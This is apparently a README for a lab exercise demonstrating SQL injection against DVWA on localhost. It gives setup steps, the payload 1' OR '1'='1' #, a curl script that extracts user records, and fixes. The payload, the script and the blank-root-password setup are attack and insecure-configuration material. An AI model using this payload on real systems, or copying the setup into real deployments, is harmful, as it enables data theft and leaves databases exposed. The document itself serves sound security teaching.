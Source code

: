 # DVWA SQL Injection (Low Security) Demo

## 🎯 Objective
Demonstrate a basic SQL Injection vulnerability using Damn Vulnerable Web Application (DVWA) with security level set to **Low**.  
The goal is to exploit improper input validation to retrieve sensitive information from the database.

---

## 🛠 Tools Used
- **Kali Linux**
- **Apache2** (web server)
- **MariaDB/MySQL** (database)
- **PHP** (server-side scripting)
- **DVWA** (Damn Vulnerable Web Application)
- **curl** (for automated exploit)

---

## 📦 Setup Steps (Kali Linux)
1. **Install Required Packages**
   ```bash
   sudo apt update
   sudo apt install apache2 mariadb-server php php-mysqli php-gd git -y
2.Start Services
sudo service apache2 start
sudo service mysql start
3.Download DVWA
cd /var/www/html
sudo git clone https://github.com/digininja/DVWA.git
sudo chown -R www-data:www-data DVWA
sudo chmod -R 755 DVWA
4.Configure DVWA
cd DVWA/config
sudo cp config.inc.php.dist config.inc.php
sudo nano config.inc.php

Set:
$_DVWA[ 'db_user' ] = 'root';
$_DVWA[ 'db_password' ] = '';
$_DVWA[ 'db_database' ] = 'dvwa';
5.Create Database
sudo mysql -u root
CREATE DATABASE dvwa;
GRANT ALL PRIVILEGES ON dvwa.* TO 'root'@'localhost' IDENTIFIED BY '';
FLUSH PRIVILEGES;
EXIT;
6.Initialize DVWA
Go to http://localhost/DVWA/setup.php → Click Create / Reset Database
Login: admin / password
Set Security Level = Low in DVWA Security tab.
🚀 Exploiting the Vulnerability
Method 1: Web Interface
Navigate to:
http://localhost/DVWA/vulnerabilities/sqli/
In User ID field, enter:
1' OR '1'='1' #
# is used as a comment in MySQL to ignore the rest of the query.
Click Submit.
You should see all user records displayed.
Why it Works:
The query becomes:
SELECT first_name, last_name FROM users WHERE id = '1' OR '1'='1' #';
Since '1'='1' is always true, the database returns all rows.
Method 2: Automated Bash Script
Create sql_injection_exploit.sh:
#!/bin/bash
URL="http://localhost/DVWA/vulnerabilities/sqli/"
COOKIE="PHPSESSID=YOUR_SESSION_ID; security=low"
curl -s -X POST "$URL" \
  -H "Cookie: $COOKIE" \
  -d "id=1' OR '1'='1' #&Submit=Submit" \
  | grep -i "First name\|Surname"

Replace YOUR_SESSION_ID with your DVWA session ID from browser DevTools.
Make it executable:
chmod +x sql_injection_exploit.sh
./sql_injection_exploit.sh
📸 Screenshots to Include

DVWA Security level set to Low

Injection input in User ID field

All user data retrieved (web interface)

Terminal output from script

🔍 Vulnerability Explanation

Cause: User input is directly concatenated into an SQL query without sanitization or parameterization.

Impact: Attackers can bypass authentication, retrieve, modify, or delete database data.

Fix:

Use prepared statements with parameterized queries.

Sanitize and validate all user inputs.

Restrict database privileges.
